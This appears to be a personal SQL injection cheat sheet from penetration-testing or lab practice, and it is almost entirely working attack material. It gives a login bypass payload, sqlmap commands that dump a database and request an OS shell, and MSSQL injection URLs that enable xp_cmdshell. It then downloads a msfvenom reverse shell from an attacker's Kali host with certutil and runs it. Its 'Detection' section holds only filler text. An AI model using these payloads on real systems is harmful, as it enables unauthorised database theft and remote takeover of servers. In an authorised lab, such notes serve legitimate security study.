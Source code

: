 ## Detection
bla bla

## Basic SQL injection
```
MySQL
Username: Administrator
Password: ' OR 1=1#
```

## SQLmap
Below example is a search engine on website for authenticated users:
```
# URL to search:
# http://10.129.95.174/dashboard.php?search=ELI%27+OR+1%3D1%23

# basic scan to confirm vuln
sqlmap --url http://10.129.95.174/dashboard.php?search= --cookie="PHPSESSID=sessioncookie"

# dump data
sqlmap --url http://10.129.95.174/dashboard.php?search= --cookie="PHPSESSID=sessioncookie" --all

# try to get command execution
sqlmap --url http://10.129.95.174/dashboard.php?search= --cookie="PHPSESSID=sessioncookie" --os-shell
```

## SQLserver

### RCE
First let turn on the functionality to execute commands: **xp_cmdshell**
```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

turns into

http://127.0.0.1/sql.php?param='; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
```
Download reverse shell (generated by msfvenom) and execute it
```
http://127.0.0.1/sql.php?param='; EXEC xp_cmdshell 'certutil -urlcache -f http://<Kali IP>:8081/shell.exe C:\Windows\Temp\shell.exe'; --

http://127.0.0.1/sql.php?param='; EXEC xp_cmdshell 'C:\Windows\Temp\shell.exe'; --
```

